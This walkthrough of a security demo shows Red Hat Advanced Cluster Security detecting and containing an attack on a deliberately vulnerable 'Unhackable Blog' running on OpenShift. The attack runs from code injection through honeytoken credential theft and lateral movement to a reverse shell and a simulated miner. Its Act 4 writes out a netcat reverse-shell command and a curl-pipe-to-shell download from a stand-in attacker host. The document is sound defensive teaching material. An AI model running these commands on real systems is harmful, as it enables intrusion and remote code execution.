The Unhackable Blog — end-to-end walkthrough
Every screenshot below was captured from a real run of this demo on OpenShift Local (CRC 2.64, OpenShift 4.22) with RHACS 5.0.0, driven by
scripts/demo.shandscripts/attacker.sh. Nothing is mocked. How to set it up: ../README.md. The talk built on it: TALK.md.
The story in one line: a blog with zero CVEs and the lowest risk in the cluster is breached through a bug in its own code. RHACS sees every attacker move — recon, credential theft, lateral movement, a reverse shell and a crypto miner talking to an external attacker — then kills the pod and a NetworkPolicy contains it. 0 CVEs is where security starts, not where it ends.
| Act | What the audience sees | |
|---|---|---|
| 1 | Unhackable | 0 CVEs, minimal risk, no violations |
| 2 | Day zero | "Check links" → remote code execution → Unauthorized process |
| 3 | Loot | honeytoken, card data from payments-api → Honeytoken, Lateral movement |
| 4 | Persistence & profit | reverse shell + crypto miner to attacker.example.local → network graph |
| 5 | Respond | RHACS kills the pod, the shell dies, NetworkPolicy blocks egress |
| 6 | Fix forward | v2: no shell, still 0 CVEs, exploit is dead |
Cast
| Who | Where | |
|---|---|---|
| 🛡️ | Unhackable Blog — Go, one dependency (yaegi, 0 CVEs), Alpine 3.24, non-root, read-only rootfs, no SA token | unhackable/blog |
| 💳 | payments-api — the crown jewels, internal only | payments/payments-api |
| ☠️ | The attacker — attacker.example.local → 1.2.3.4, a public address on the presenter's laptop, outside the cluster |
scripts/attacker.sh |
Act 1 — Unhackable
"Meet the Unhackable Blog. Marketing says it can't be hacked. Let's ask RHACS."
The blog is a polished product: posts, an editor, and a brand-new Check links feature.

The editor checks every link in a draft before publishing. It works, and writers love it.


Vulnerability Management → Images without CVEs. New in the RHACS 5 UI: a dedicated view for
images with nothing to fix. unhackable/blog:v1 is there — Alpine 3.24, scanned by Scanner V4.

Open the image: 0 critical, 0 important, 0 moderate, 0 low, 0 fixable. A static Go binary with one
third-party module (yaegi — 0 CVEs) on a fully upgraded Alpine with apk removed.

Risk → blog. The only risk indicators are two writable volumes, one mounted secret and a port inside the cluster. Non-root, read-only root filesystem, all capabilities dropped, no service account token.

Violations: none.

💬 "0 CVEs. Hardened. Every gate is green. If this were your app, you'd ship it. So — is it secure?"
Act 2 — Day zero
"Under the hood, Check links evaluates your 'rule' as Go, in an interpreter we handed exec.Command. So a rule can run commands."
The attacker sends a "rule" that runs id, uname, cat /etc/os-release. They come back:
remote code execution, as OpenShift's random non-root UID.

💬 "That's not a CVE. There's no package to upgrade, no advisory, no scanner signature. It's our code — CWE-94, code injection."
Seconds later, in Violations: TDR – Unauthorized process in the Unhackable Blog (Critical), plus the built-in Unauthorized Process Execution.

Open it: exactly the attacker's binaries — /usr/bin/id, /bin/uname, /bin/cat, /usr/bin/head —
with container ID, UID and arguments.

How: RHACS learned the blog's process baseline and the setup locked it to exactly one
binary: /usr/local/bin/blog. The app validates links natively and runs rules in-process, so it never
spawns a child — the baseline is one process. Anything else is an attack, and RHACS catches it. Baselines beat signatures.
Act 3 — Living off the land: loot
"An attacker's first move: find credentials. Hardening makes this hard…"
No service account token. Nothing in the environment. But there's ~/.aws/credentials and the app's /opt/blog/.env… The
attacker then probes the Kubernetes API and reads card data from payments-api.

💬 "Those AWS keys are fake. We planted them. The app never touches that file — so the only thing that ever will is an attacker. It's a honeytoken."
TDR – Honeytoken touched: decoy AWS credentials — /bin/cat with the argument
~/.aws/credentials and /opt/blog/.env.

TDR – Unexpected network flow to payments-api (Critical). payments-api's network baseline is
empty and locked — nothing legitimate ever calls it. Source blog (namespace unhackable),
destination payments-api:8080/TCP.

The Network Graph shows the new edge blog → payments-api.

Act 4 — Persistence and profit
"HTTP requests are slow and noisy. The attacker wants an interactive shell — and money."
The attacker is outside the cluster: attacker.example.local resolves (through the attacker's own
nameserver) to 1.2.3.4 on the presenter's laptop. Second terminal:
scripts/attacker.sh c2 # reverse-shell listener on attacker.example.local:4444
scripts/demo.sh act4 # main terminal
- Reverse shell —
nc attacker.example.local 4444 -e /bin/sh. - Crypto miner —
curl -s http://attacker.example.local:8080/stage.sh | sh: the root FS is read-only and/dev/shmisnoexec, but/tmpis writable.xmriglands in/tmp/.cache, getschmod +x, starts and connects toattacker.example.local:3333. (A harmless simulator.)

On the attacker's laptop, the shell arrives — id, ps run inside the "unhackable" pod, and the miner
is visible:

The attacker's servers log the download, the DNS lookups and the miner's shares:

Violations fill up: Reverse shell tool executed, Crypto miner, Container drift, Unauthorized process — and RHACS's built-ins Netcat Execution Detected and Cryptocurrency Mining Process Execution.

TDR – Crypto miner in the Unhackable Blog: /tmp/.cache/xmrig executed with
-o stratum+tcp://attacker.example.local:3333.

TDR – Container drift: file dropped or made executable — RHACS 5.0 File Activity Monitoring:
/tmp/.cache/xmrig created by a process in the container, then permission changed. The
blog never writes to /tmp, so any new file there is drift from the image.

TDR – Reverse shell tool executed: nc connecting to attacker.example.local 4444 with -e /bin/sh.

Network Graph. The attacker appears outside the cluster as its own named entity, attacker.example.local, next to generic External Entities:

Select blog → Flows: RHACS flags 4 anomalous flows against the locked network baseline — payments-api, the Kubernetes API and the attacker.

Select attacker.example.local (1.2.3.4/32): three active flows from blog, each marked anomalous —
4444/TCP (reverse shell), 3333/TCP (mining pool), 8080/TCP (payload download).

💬 "Every step was detected within seconds, each one mapped to MITRE ATT&CK. But seeing isn't stopping. The miner is still running and the shell is still open."
Act 5 — Respond
"Stop the bleeding, then close the door."
Step 1 — kill: shrink the blast radius. The TDR policies switch to Kill Pod. They are
SecurityPolicy custom resources — policy as code (Origin: Externally managed in the UI).

The attacker comes back and runs id… RHACS kills the pod within a second; Kubernetes replaces it
with a clean one from the original image — no miner, no /tmp/.cache, no shell. Every new attempt costs
the attacker the pod: the blast radius is one command, and we've bought time.
Step 2 — network enforcement: close the door. A NetworkPolicy lets the blog reach only DNS and the
internet on 80/443. Even the app itself, making an in-process HTTP call (no new process to kill), now
can't reach the attacker: attacker.example.local:8080 times out.

